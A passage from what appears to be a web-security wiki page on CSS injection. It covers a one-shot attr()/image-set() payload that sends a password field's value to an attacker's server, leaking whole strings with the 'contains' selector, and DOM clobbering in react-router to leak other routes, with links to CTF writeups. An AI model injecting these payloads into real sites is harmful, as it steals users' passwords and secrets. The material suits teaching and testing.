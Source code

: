 ### One-shot with `attr()`

Due to [a recent update](https://developer.chrome.com/blog/advanced-attr) to the attr() function in CSS, it is possible to get a value of an attribute into a CSS variable. This means it can be used in a function like [`image-set()`](https://developer.mozilla.org/en-US/docs/Web/CSS/image/image-set) to load its value as a relative URL. If the stylesheet was loaded from an attacker's domain, the URL will be relative to the malicious stylesheet's domain:

```css
input[name="password"] {
  background: image-set(attr(value))
}
```

> `GET /[leak] HTTP/1.1`

The beauty of this is that it can **leak arbitrarily large attributes all in this single request**. Read more about this find by [@slonser in this tweet](https://web.archive.org/web/20250514150052/https://unrollnow.com/status/1912060407344201738).

{% hint style="warning" %}
**Note**: while this technique works great for any attributes, `<input type=hidden>` is impossible to leak with this method because such an element cannot have a background, so the request is not made.
{% endhint %}

### One-shot using 'contains' operator

While most techniques for leaking attributes do it one character at a time with the _prefix_ operator (`^=`), there is also the _contains_ operator (`*=`). By writing many partial substrings of text, you can find which ones exist on the target page and then combine them on the server into a single string. This makes it possible to leak an entire string from one single injection. It was the solution to the following challenge, with a writeup below:

{% embed url="https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/#web-newdiary-14-solves" %}
Solution to "newdiary" writeup involving a one-shot CSS injection&#x20;
{% endembed %}

### Other pages

Normally, it is only possible to exfiltrate content on the page the CSS Injection is on. But what if we can include other content just so we can leak it? The popular [`react-router`](https://reactrouter.com/) package for React is vulnerable to DOM Clobbering, where if we can include an extra `<iframe>` tag with an `srcdoc` attribute (through an HTML-Injection), we can give create a nested React renderer that loads another route!

With this, you can load any route to leak content of other more sensitive pages. The writeup below explains this:

{% embed url="https://blog.huli.tw/2022/08/21/en/corctf-2022-modern-blog-writeup/" %}
CTF Writeup of importing another route and leaking it with CSS
{% endembed %}

### Blackbox

